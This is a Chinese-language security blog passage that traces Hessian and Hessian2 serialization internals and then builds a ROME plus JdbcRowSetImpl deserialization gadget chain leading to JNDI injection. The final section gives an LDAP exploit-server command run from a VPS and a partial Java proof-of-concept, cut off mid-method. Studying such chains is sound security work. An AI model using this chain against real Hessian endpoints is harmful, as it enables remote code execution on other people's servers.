参考文章：

[Hessian反序列化](https://infernity.top/2025/03/03/Hessian%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[Hessian反序列化](https://baozongwi.xyz/p/hessian-deserialization/)

# RPC是什么？

RPC和常见的FTP，UDP，HTTP等一样，都是一种网络协议，RPC允许程序调用另一台计算机上的程序或服务,就像调用本地函数一样,而无需程序员显式编写网络通信的细节代码。

我们所说的RPC（**Remote Procedure Call Protocol，远程过程调用协议**）和之前学到的RMI（Remote Method Invocation，远程方法调用）是类似的，但RPC和RMI的不同之处就在于它以**标准的二进制**格式来定义请求的信息 ( 请求的对象、方法、参数等 )

RPC的处理流程：

- 客户端发起请求（调用一个方法），并按照RPC协议格式填充信息
- 通过网络发送请求到远程服务器
- 远程服务器接收请求后根据RPC协议解析请求的信息并进行相应的处理
- 处理完毕后将结果按照RPC协议格式重新写入二进制文件中返回

# Hessian是什么

Hessian是一种基于RPC的高性能二进制序列化远程传输协议，官方对Java、Flash/Flex、Python、C++、.NET C#等多种语言都进行了实现，并且Hessian一般通过Web Service提供服务。在Java中，Hessian的使用方法非常简单，它使用Java语言接口定义了远程对象，并通过序列化和反序列化将对象转为Hessian二进制格式进行传输。

Hessian在2004年发布1.0规范，一般被称为Hessian，而在后面的迭代中，在 Hassian jar 3.2.0 之后，采用了新的 2.0 版本的协议，一般称之为 Hessian 2.0。

# 环境配置

jdk版本：jdk8u65

```xml
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>hessian</artifactId>
        <version>4.0.63</version>
    </dependency>
```

# Hessian的序列化和反序列化

在测试之前，先了解一下Hessian中序列化和反序列化的功能函数

## 序列化

HessianOutput和Hessian2Output都是抽象类AbstractHessianOutput的具体实现




来看看里面的writeObject函数

Hessian

```java
  public void writeObject(Object object)
    throws IOException
  {
    if (object == null) {
      writeNull();
      return;
    }

    Serializer serializer;

    serializer = _serializerFactory.getSerializer(object.getClass());

    serializer.writeObject(object, this);
  }
```

Hessian2

```java
  @Override
  public void writeObject(Object object)
    throws IOException
  {
    if (object == null) {
      writeNull();
      return;
    }

    Serializer serializer
      = findSerializerFactory().getObjectSerializer(object.getClass());

    serializer.writeObject(object, this);
  }
```

这两个函数的操作是差不太多的

跟进getObjectSerializer看看

```java
  public Serializer getObjectSerializer(Class<?> cl)
    throws HessianProtocolException
  {
    Serializer serializer = getSerializer(cl);

    if (serializer instanceof ObjectSerializer)
      return ((ObjectSerializer) serializer).getObjectSerializer();
    else
      return serializer;
  }
```

继续跟进getSerializer函数

```java
  public Serializer getSerializer(Class cl)
    throws HessianProtocolException
  {
    Serializer serializer;

    if (_cachedSerializerMap != null) {
      serializer = (Serializer) _cachedSerializerMap.get(cl);

      if (serializer != null) {
        return serializer;
      }
    }

    serializer = loadSerializer(cl);

    if (_cachedSerializerMap == null)
      _cachedSerializerMap = new ConcurrentHashMap(8);

    _cachedSerializerMap.put(cl, serializer);

    return serializer;
  }
```

继续跟进loadSerializer

```java
  protected Serializer loadSerializer(Class<?> cl)
    throws HessianProtocolException
  {
    Serializer serializer = null;

    for (int i = 0;
         _factories != null && i < _factories.size();
         i++) {
      AbstractSerializerFactory factory;

      factory = (AbstractSerializerFactory) _factories.get(i);

      serializer = factory.getSerializer(cl);

      if (serializer != null)
        return serializer;
    }

    serializer = _contextFactory.getSerializer(cl.getName());

    if (serializer != null)
      return serializer;

    ClassLoader loader = cl.getClassLoader();

    if (loader == null)
      loader = _systemClassLoader;

    ContextSerializerFactory factory = null;

    factory = ContextSerializerFactory.create(loader);

    serializer = factory.getCustomSerializer(cl);

    if (serializer != null) {
      return serializer;
    }
    
    if (HessianRemoteObject.class.isAssignableFrom(cl)) {
      return new RemoteSerializer();
    }
    else if (BurlapRemoteObject.class.isAssignableFrom(cl)) {
      return new RemoteSerializer();
    }
    else if (InetAddress.class.isAssignableFrom(cl)) {
      return InetAddressSerializer.create();
    }
    else if (JavaSerializer.getWriteReplace(cl) != null) {
      Serializer baseSerializer = getDefaultSerializer(cl);
      
      return new WriteReplaceSerializer(cl, getClassLoader(), baseSerializer);
    }
    else if (Map.class.isAssignableFrom(cl)) {
      if (_mapSerializer == null)
        _mapSerializer = new MapSerializer();

      return _mapSerializer;
    }
    else if (Collection.class.isAssignableFrom(cl)) {
      if (_collectionSerializer == null) {
        _collectionSerializer = new CollectionSerializer();
      }

      return _collectionSerializer;
    }

    else if (cl.isArray()) {
      return new ArraySerializer();
    }

    else if (Throwable.class.isAssignableFrom(cl))
      return new ThrowableSerializer(getDefaultSerializer(cl));

    else if (InputStream.class.isAssignableFrom(cl))
      return new InputStreamSerializer();

    else if (Iterator.class.isAssignableFrom(cl))
      return IteratorSerializer.create();

    else if (Calendar.class.isAssignableFrom(cl))
      return CalendarSerializer.SER;
    
    else if (Enumeration.class.isAssignableFrom(cl))
      return EnumerationSerializer.create();

    else if (Enum.class.isAssignableFrom(cl))
      return new EnumSerializer(cl);

    else if (Annotation.class.isAssignableFrom(cl))
      return new AnnotationSerializer(cl);

    return getDefaultSerializer(cl);
  }
```

这里会根据传入的 object 的类型去选择专门的序列化器，如果不是属于已存在的接口，那就调用com.caucho.hessian.io.SerializerFactory#getDefaultSerializer方法针对自定义的类去加载默认的序列化器，我们看看这个getDefaultSerializer方法

```java
  protected Serializer getDefaultSerializer(Class cl)
  {
    if (_defaultSerializer != null)
      return _defaultSerializer;

    if (! Serializable.class.isAssignableFrom(cl)
        && ! _isAllowNonSerializable) {
      throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
    }
    
    if (_isEnableUnsafeSerializer
        && JavaSerializer.getWriteReplace(cl) == null) {
      return UnsafeSerializer.create(cl);
    }
    else
      return JavaSerializer.create(cl);
  }
```

检查类是否是实现了序列化接口，并根据类的配置选择序列化器，如果cl中没有wtrieReplace方法，最后就会选择UnsafeSerializer作为序列化器，我们跟进这个UnsafeSerializer序列化器的writeObject方法看看



这个就是默认序列化器的序列化核心操作了，先是检查对象是否已经被序列化，如果有就直接返回，接着调用writeObjectBegin写入对象开始标记和类名，ref参数就是这个类定义的引用编号

而hessian 和 hessian2 的不同之处就在于这里的writeObjectBegin函数，跟进writeObjectBegin函数看看

### Hessian#writeObjectBegin

在Hessian中

```java
  public int writeObjectBegin(String type)
    throws IOException
  {
    writeMapBegin(type);
    
    return -2;
  }
```

这个函数默认会返回2，会调用writeObject10函数逐个对字段进行序列化，并调用writeMapEnd函数写入结尾字符`z`

```java
  protected void writeObject10(Object obj, AbstractHessianOutput out)
    throws IOException
  {
    for (int i = 0; i < _fields.length; i++) {
      Field field = _fields[i];

      out.writeString(field.getName());

      _fieldSerializers[i].serialize(out, obj);
    }

    out.writeMapEnd();
  }
  public void writeMapEnd()
    throws IOException
  {
    os.write('z');
  }
```

跟进writeMapBegin()

```java
  public void writeMapBegin(String type)
    throws IOException
  {
    os.write('M');
    os.write('t');
    printLenString(type);
  }
```

写入字符`M`ASCII码77作为Map类型的标记，写入字符`t`表示接下来会下入类型信息，最后利用printLenString写入类型字符串

例如

```java
'M'                          // Map标记
't'                          // 类型标记
0x00 0x13                    // 长度19 (java.util.HashMap的长度)
'j' 'a' 'v' 'a' '.' ...      // 类型名称
```

### Hessian2#writeObjectBegin

而在Hessian2中重写了writeObjectBegin函数

```java
  @Override
  public int writeObjectBegin(String type)
    throws IOException
  {
    int newRef = _classRefs.size();
    int ref = _classRefs.put(type, newRef, false);

    if (newRef != ref) {
      if (SIZE < _offset + 32)
        flushBuffer();

      if (ref <= OBJECT_DIRECT_MAX) {
        _buffer[_offset++] = (byte) (BC_OBJECT_DIRECT + ref);
      }
      else {
        _buffer[_offset++] = (byte) 'O';
        writeInt(ref);
      }

      return ref;
    }
    else {
      if (SIZE < _offset + 32)
        flushBuffer();

      _buffer[_offset++] = (byte) 'C';

      writeString(type);

      return -1;
    }
  }
```

检查类型引用编号是否存在，如果类型**已存在**,返回**已有的引用编号ref（不等于newRef）**，不存在就插入并返回和newRef相等的编号，意思就是可以自定义类型的数据，如果是自定义数据的话就返回一个`-1`，回到writeObject中调用 `writeDefinition20` 和 `Hessian2Output#writeObjectBegin` 方法写入自定义数据

总结一下：

- Hessian在序列化的过程中会默认将序列化对象序列化结果处理为一个Map类型
- Hessian2在序列化的过程中会独立处理自定义的类而不会处理为一个Map类型

其他的地方基本上就没啥区别的

## 反序列化

### Hessian的反序列化

首先就是Hessian的反序列化HessianInput#readObject

```java
  public Object readObject()
    throws IOException
  {
    int tag = read();

    switch (tag) {
    case 'N':
      return null;
      
    case 'T':
      return Boolean.valueOf(true);
      
    case 'F':
      return Boolean.valueOf(false);
      
    case 'I':
      return Integer.valueOf(parseInt());
    
    case 'L':
      return Long.valueOf(parseLong());
    
    case 'D':
      return Double.valueOf(parseDouble());
    
    case 'd':
      return new Date(parseLong());
    
    case 'x':
    case 'X': {
      _isLastChunk = tag == 'X';
      _chunkLength = (read() << 8) + read();

      return parseXML();
    }

    case 's':
    case 'S': {
      _isLastChunk = tag == 'S';
      _chunkLength = (read() << 8) + read();

      int data;
      _sbuf.setLength(0);
      
      while ((data = parseChar()) >= 0)
        _sbuf.append((char) data);

      return _sbuf.toString();
    }

    case 'b':
    case 'B': {
      _isLastChunk = tag == 'B';
      _chunkLength = (read() << 8) + read();

      int data;
      ByteArrayOutputStream bos = new ByteArrayOutputStream();
      
      while ((data = parseByte()) >= 0)
        bos.write(data);

      return bos.toByteArray();
    }

    case 'V': {
      String type = readType();
      int length = readLength();

      return _serializerFactory.readList(this, length, type);
    }

    case 'M': {
      String type = readType();

      return _serializerFactory.readMap(this, type);
    }

    case 'R': {
      int ref = parseInt();

      return _refs.get(ref);
    }

    case 'r': {
      String type = readType();
      String url = readString();

      return resolveRemote(type, url);
    }

    default:
      throw error("unknown code for readObject at " + codeName(tag));
    }
  }
```

由于Hessian默认会将序列化结果处理为Map，所以直接就走到`case 'M'`了



跟进`readMap`函数

```java
  public Object readMap(AbstractHessianInput in, String type)
    throws HessianProtocolException, IOException
  {
    Deserializer deserializer = getDeserializer(type);

    if (deserializer != null)
      return deserializer.readMap(in);
    else if (_hashMapDeserializer != null)
      return _hashMapDeserializer.readMap(in);
    else {
      _hashMapDeserializer = new MapDeserializer(HashMap.class);

      return _hashMapDeserializer.readMap(in);
    }
  }
```

先是获取反序列化器，跟进getDeserializer函数

```java
  public Deserializer getDeserializer(String type)
    throws HessianProtocolException
  {
    if (type == null || type.equals(""))
      return null;

    Deserializer deserializer;

    if (_cachedTypeDeserializerMap != null) {
      synchronized (_cachedTypeDeserializerMap) {
        deserializer = (Deserializer) _cachedTypeDeserializerMap.get(type);
      }

      if (deserializer != null)
        return deserializer;
    }


    deserializer = (Deserializer) _staticTypeMap.get(type);
    if (deserializer != null)
      return deserializer;

    if (type.startsWith("[")) {
      Deserializer subDeserializer = getDeserializer(type.substring(1));

      if (subDeserializer != null)
        deserializer = new ArrayDeserializer(subDeserializer.getType());
      else
        deserializer = new ArrayDeserializer(Object.class);
    }
    else {
      try {
        //Class cl = Class.forName(type, false, getClassLoader());
        
        Class cl = loadSerializedClass(type);
        
        deserializer = getDeserializer(cl);
      } catch (Exception e) {
        log.warning("Hessian/Burlap: '" + type + "' is an unknown class in " + getClassLoader() + ":\n" + e);

        log.log(Level.FINER, e.toString(), e);
      }
    }

    if (deserializer != null) {
      if (_cachedTypeDeserializerMap == null)
        _cachedTypeDeserializerMap = new HashMap(8);

      synchronized (_cachedTypeDeserializerMap) {
        _cachedTypeDeserializerMap.put(type, deserializer);
      }
    }

    return deserializer;
  }
```

1. 如果类型为null，或为空字符串，则直接返回null
2. 从本地缓存反序列化器中尝试获取，获取到就返回该反序列化器
3. 从静态类型反序列化器中尝试获取，获取到就返回该反序列化器
4. 检查类型的开头是否是`[`，也就是数组类型，如果是就尝试获取数组型反序列化器

如果都不是的话就会加载类并获取其反序列化器



跟进load发现就是一个简单的反射获取全限定类名



跟进`deserializer = getDeserializer(cl);`

```java
  public Deserializer getDeserializer(Class cl)
    throws HessianProtocolException
  {
    Deserializer deserializer;

    if (_cachedDeserializerMap != null) {
      deserializer = (Deserializer) _cachedDeserializerMap.get(cl);

      if (deserializer != null)
        return deserializer;
    }

    deserializer = loadDeserializer(cl);

    if (_cachedDeserializerMap == null)
      _cachedDeserializerMap = new ConcurrentHashMap(8);

    _cachedDeserializerMap.put(cl, deserializer);

    return deserializer;
  }
```

跟进loadDeserializer

```java
  protected Deserializer loadDeserializer(Class cl)
    throws HessianProtocolException
  {
    Deserializer deserializer = null;

    for (int i = 0;
         deserializer == null && _factories != null && i < _factories.size();
         i++) {
      AbstractSerializerFactory factory;
      factory = (AbstractSerializerFactory) _factories.get(i);

      deserializer = factory.getDeserializer(cl);
    }

    if (deserializer != null)
      return deserializer;

    // XXX: need test
    deserializer = _contextFactory.getDeserializer(cl.getName());

    if (deserializer != null)
      return deserializer;

    ContextSerializerFactory factory = null;

    if (cl.getClassLoader() != null)
      factory = ContextSerializerFactory.create(cl.getClassLoader());
    else
      factory = ContextSerializerFactory.create(_systemClassLoader);

    deserializer = factory.getDeserializer(cl.getName());
    
    if (deserializer != null)
      return deserializer;
    
    deserializer = factory.getCustomDeserializer(cl);

    if (deserializer != null)
      return deserializer;

    if (Collection.class.isAssignableFrom(cl))
      deserializer = new CollectionDeserializer(cl);

    else if (Map.class.isAssignableFrom(cl)) {
      deserializer = new MapDeserializer(cl);
    }
    else if (Iterator.class.isAssignableFrom(cl)) {
      deserializer = IteratorDeserializer.create();
    }
    else if (Annotation.class.isAssignableFrom(cl)) {
      deserializer = new AnnotationDeserializer(cl);
    }
    else if (cl.isInterface()) {
      deserializer = new ObjectDeserializer(cl);
    }
    else if (cl.isArray()) {
      deserializer = new ArrayDeserializer(cl.getComponentType());
    }
    else if (Enumeration.class.isAssignableFrom(cl)) {
      deserializer = EnumerationDeserializer.create();
    }
    else if (Enum.class.isAssignableFrom(cl))
      deserializer = new EnumDeserializer(cl);

    else if (Class.class.equals(cl))
      deserializer = new ClassDeserializer(getClassLoader());

    else
      deserializer = getDefaultDeserializer(cl);
    
    return deserializer;
  }
```

可以加载默认的自定义类使用默认的反序列化器，但是由于 hessian1 默认序列化为 Map，所以这里返回为 MapDeserializer。

然后就会来到`deserializer.readMap(in)`，这里是MapDeserializer#readMap

跟进MapDeserializer#readMap

```java
  public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    Map map;
    
    if (_type == null)
      map = new HashMap();
    else if (_type.equals(Map.class))
      map = new HashMap();
    else if (_type.equals(SortedMap.class))
      map = new TreeMap();
    else {
      try {
        map = (Map) _ctor.newInstance();
      } catch (Exception e) {
        throw new IOExceptionWrapper(e);
      }
    }

    in.addRef(map);

    while (! in.isEnd()) {
      map.put(in.readObject(), in.readObject());
    }

    in.readEnd();

    return map;
  }
```

默认是HashMap，如果`_type`设置是Map，那就是HashMap，如果是SorteMap那就是TreeMap，并且这里在实例化一个map之后会调用他的put方法，这就导致了以下方法的调用

- 对于`HashMap`会触发`key.hashCode()`、`key.equals(k)`，
- 对于`TreeMap`会触发`key.compareTo()`

### Hessian2的反序列化

来看Hessian2，其实前面的流程和Hessian是大差不差的，对于反序列化过程中获取加载器的流程也是一样的，我们跟进看到loadDeserializer，因为Hessian2是不会默认处理为Map嘛，那么就存在着自定义类的反序列化

跟进最后的`deserializer = getDefaultDeserializer(cl);`

```java
  protected Deserializer getDefaultDeserializer(Class cl)
  {
    if (InputStream.class.equals(cl))
      return InputStreamDeserializer.DESER;
    
    if (_isEnableUnsafeSerializer) {
      return new UnsafeDeserializer(cl, _fieldDeserializerFactory);
    }
    else
      return new JavaDeserializer(cl, _fieldDeserializerFactory);
  }
```

会返回一个UnsafeDeserializer反序列化器，所以会调用到跟进看看UnsafeDeserializer中的readMap方法

```java
  public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    try {
      Object obj = instantiate();

      return readMap(in, obj);
    } catch (IOException e) {
      throw e;
    } catch (RuntimeException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(_type.getName() + ":" + e.getMessage(), e);
    }
  }
```

跟进instantiate方法

```java
  protected Object instantiate()
    throws Exception
  {
    return _unsafe.allocateInstance(_type);
  }
```

可以**绕过构造函数**来创建类的实例

随后进入`readMap(in, obj)`

```java
  public Object readMap(AbstractHessianInput in, Object obj)
    throws IOException
  {
    try {
      int ref = in.addRef(obj);

      while (! in.isEnd()) {
        Object key = in.readObject();

        FieldDeserializer2 deser = (FieldDeserializer2) _fieldMap.get(key);

        if (deser != null)
          deser.deserialize(in, obj);
        else
          in.readObject();
      }

      in.readMapEnd();

      Object resolve = resolve(in, obj);

      if (obj != resolve)
        in.setRef(ref, resolve);

      return resolve;
    } catch (IOException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(e);
    }
  }
```

注册对象引用，并循环读取键值对，查找key字段反序列化器并进行反序列化，读取Map标志最后并更新引用

## 测试代码

因为Hessian1会默认将序列化结果处理为Map，我们这里用Hessian2进行反序列化和序列化这样更方便

先简单写个实现了序列化接口的Person类

```java
package SerializeChains.HessianChains;

import java.io.Serializable;

public class Person implements Serializable {
    public int age;
    public String name;

    public String getName() {
        System.out.println("调用了getName()");
        return name;
    }

    public void setName(String name) {
        System.out.println("调用了setName()");
        this.name = name;
    }

    public int getAge() {
        System.out.println("调用了getAge()");
        return age;
    }

    public void setAge(int age) {
        System.out.println("调用了setAge()");
        this.age = age;
    }

}
```

然后编写序列化和反序列化函数

```java
    //Hessian2的序列化操作
    public static byte[] Hessian2_serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.writeObject(obj);
        hessian2Output.close();
        return baos.toByteArray();
    }
    //Hessian2的反序列化操作
    public static Object Hessian2_unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput2 = new Hessian2Input(bais);
        return hessianInput2.readObject();
    }
```

进行序列化和反序列化操作

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.util.Arrays;

public class Test {
    public static void main(String[] args) throws Exception {
        Person person = new Person();
        person.setAge(20);
        person.setName("wanth3f1ag");
        //序列化操作
        System.out.println("----------序列化操作----------");
        byte[] bytes = Hessian2_serialize(person);
        System.out.println(Arrays.toString(bytes));

        //反序列化操作
        System.out.println("----------反序列化操作----------");
        Object unserialize_person = Hessian2_unserialize(bytes);
        System.out.println(unserialize_person);

    }

    //Hessian2的序列化操作
    public static byte[] Hessian2_serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.writeObject(obj);
        hessian2Output.close();
        return baos.toByteArray();
    }
    //Hessian2的反序列化操作
    public static Object Hessian2_unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessianInput = new Hessian2Input(bais);
        return hessianInput.readObject();
    }
    //Hessian的序列化操作
    public static byte[] Hessian_serialize(Object obj) throws Exception{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(baos);
        hessianOutput.writeObject(obj);
        hessianOutput.close();
        return baos.toByteArray();
    }
    //Hessian的反序列化操作
    public static Object Hessian_unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        HessianInput hessianInput = new HessianInput(bais);
        return hessianInput.readObject();
    }
}
```



让ai分析一下这里的内容



# 漏洞点

漏洞点其实就在于HessianInput#readObject方法，前面也分析过，Hessian会将序列化的结果处理为一个Map，所以序列化结果的第一个字节始终为`M`，ASCII为77

换成Hessian的序列化和反序列化操作并在readObject打上断点




在Hessian2发现一个很好玩的地方

在readObject打上断点后一路跟进来到`com.caucho.hessian.io.SerializerFactory#getDeserializer(java.lang.String)`



可以看到，这里在获取了反序列化器之后，会创建一个HashMap作为缓存并调用put方法写入我们的类和反序列化器，那么不妨猜想，如果我们这里可以让需要反序列化的对象作为key放入HashMap中，那么就能通过HashMap.put方法触发到任意类的hashCode方法了

在Hessian中也是如此

# ROME链+JdbcRowSetImpl触发hashCode

之前学过ROME链，利用`ObjectBean#hashCode`或者`EqualsBean#hashCode`能够触发到ToStringBean#toString，也知道ToStringBean#toString方法可以调用任意getter方法，如果调用`JdbcRowSetImpl#getDatabaseMetaData`就能进行JNDI注入

所以我们的链子是

## ObjectBean最终链子1

```java
Hessian2Input#readObject()->
    ObjectBean#hashCode()->
    	ToStringBean#toString()->
    		JdbcRowSetImpl#getDatabaseMetaData()->
    			JNDI注入
```

## ObjectBean最终POC1

在vps上启动ldap服务

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A vps地址
```

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.sql.rowset.BaseRowSet;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

public class ROMEJdbcRowSetImplPOC {
    public static void main(String[] args) throws Exception {

        //反射调用setDataSourceName设置DataSourceName参数
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/exp";
        Method setDataSourceName = BaseRowSet.class.getDeclaredMethod("setDataSourceName",String.class);
        setDataSourceName.invoke(jdbcRowSet,url);

        //触发ToStringBean#toString
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class,toStringBean);

        //配置一个HashMap
        HashMap hashMap = makeMap(objectBean,"aaa");

        byte[] bytes = Hessian2_serialize(hashMap);
        Hessian2_unserialize(bytes);
    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
